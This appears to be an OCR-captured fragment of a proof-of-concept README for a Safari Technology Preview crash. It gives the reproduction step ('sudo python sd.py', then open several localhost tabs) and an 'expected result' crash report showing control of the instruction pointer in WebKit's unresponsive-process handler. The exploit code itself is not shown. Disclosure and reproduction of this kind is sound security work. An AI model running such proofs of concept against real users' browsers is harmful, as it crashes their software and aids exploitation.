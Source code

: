 ```c
                                                        and the callbacks are invalid
                                                        so rip go to hell..
}

go to the /broker_rip_to_hell
directory and run that poc then the broker $rip...
to reproduce open several tabs on localhost, after running:
$ sudo python sd.py


===================================================================   expected result:

Process:               Safari Technology Preview [13086]
Path:                  /Applications/Safari Technology Preview.app/Contents/MacOS/Safari Technology Preview
Identifier:            com.apple.SafariTechnologyPreview
Version:               12.2 (14608.1.23.1)
Build Info:            WebBrowser-7608001023001000~2
Code Type:             X86-64 (Native)
Parent Process:        ??? [1]
Responsible:           Safari Technology Preview [13086]
User ID:               501

Date/Time:             2019-05-16 00:48:47.615 +0300
OS Version:            Mac OS X 10.14.5 (18F132)
Report Version:        12
Bridge OS Version:     3.5 (16P5125)
Anonymous UUID:        1F9A2248-51EC-A896-954E-5EE87841A112


Time Awake Since Boot: 170000 seconds

System Integrity Protection: disabled

Crashed Thread:        0  Dispatch queue: com.apple.main-thread

Exception Type:        EXC_BAD_ACCESS (SIGSEGV)
Exception Codes:       KERN_INVALID_ADDRESS at 0xfffffffffffffff8
Exception Note:        EXC_CORPSE_NOTIFY

Termination Signal:    Segmentation fault: 11
Termination Reason:    Namespace SIGNAL, Code 0xb
Terminating Process:   exc handler [13086]

VM Regions Near 0xfffffffffffffff8:
--> shared memory          00007fffffe1a000-00007fffffe1b000 [    4K] r-x/r-x SM=SHM  
    

Thread 0 Crashed:: Dispatch queue: com.apple.main-thread
0   ???                               0xfffffffffffffff8 0 + 18446744073709551608
1   com.apple.WebKit                  0x000000010388ffe7 WebKit::WebProcessProxy::didBecomeUnresponsive() + 347
2   com.apple.JavaScriptCore          0x0000000101fbcc63 WTF::RunLoop::TimerBase::timerFired(__CFRunLoopTimer*, void*) + 35
3   com.apple.CoreFoundation          0x00007fff313d7a60 __CFRUNLOOP_IS_CALLING_OUT_TO_A_TIMER_CALLBACK_FUNCTION__ + 20
4   com.apple.CoreFoundation          0x00007fff313d760c __CFRunLoopDoTimer + 851
5   com.apple.CoreFoundation          0x00007fff313d7152 __CFRunLoopDoTimers + 330
6   com.apple.CoreFoundation          0x00007fff313b8362 __CFRunLoopRun + 2130
7   com.apple.CoreFoundation          0x00007fff313b78be CFRunLoopRunSpecific + 455
8   com.apple.HIToolbox               0x00007fff306a396b RunCurrentEventLoopInMode + 292
9   com.apple.HIToolbox               0x00007fff306a36a5 ReceiveNextEventCommon + 603
```